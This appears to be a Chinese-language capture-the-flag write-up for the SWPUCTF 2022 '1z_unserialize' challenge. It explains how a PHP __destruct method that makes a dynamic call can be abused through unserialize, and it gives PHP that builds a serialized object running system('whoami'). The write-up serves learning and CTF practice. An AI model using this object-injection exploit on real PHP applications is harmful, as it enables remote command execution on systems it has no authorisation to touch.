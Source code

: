   

**以下是一个题目[SWPUCTF 2022 新生赛  1z_unserialize](http://node5.anna.nssctf.cn:28458/)**

**题目给出了php代码**

```php
<?php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;
        $a($this->lly);
     }
    
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
 
?> 
```

* **`__destruct `** **在php魔术方法中的析构函数 ，它的意思是 摧毁，毁坏。析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。**
* **`unserialize($_POST[‘nss’]);`******在执行完成后，通过 unserialize 重新创建的对象没有被任何变量引用，因此它将会被标记为不再需要，并最终会被 PHP 垃圾回收机制销毁。在对象被销毁的时候，__destruct 方法会被自动调用******。

#### **题目代码给了php中特有的动态函数**

```
// 这一行代码将 $this->lt 属性的值赋给变量 $a。因此，变量 $a 现在包含了一个可调用的函数或方法的引用。
$a = $this->lt;


// 在这一行代码中，变量 $a 被当作一个函数或方法来调用，同时传递 $this->lly 作为参数。这意味着 $this->lt 的值应该是一个函数或方法，而 $this->lly 被传递给这个函数或方法作为参数。 

$a($this->lly);

① 就相当于    $this->lt($this->lly);//很像命令执行 函数+指令
```

**所以我们可以通过构造一个恶意的序列化对象，将自定义的函数传递给 `$lt `属性，然后将要执行的代码（或者指向一个恶意代码文件的路径）传递给 `$lly` 属性。当对象被序列化后再被反序列化时，`__destruct `方法会被自动调用，从而执行指定的恶意操作。**

#### 源码：

```php
<?php
highlight_file(__FILE__);
class lyh{
    public $url = 'NSSCTF.com';
    public $lt='system';
    public $lly='whoami';
     
     function  __destruct()
     {
        $a = $this->lt;
        $a ($this->lly);
     }
}
    echo serialize(new lyh);

?>
```
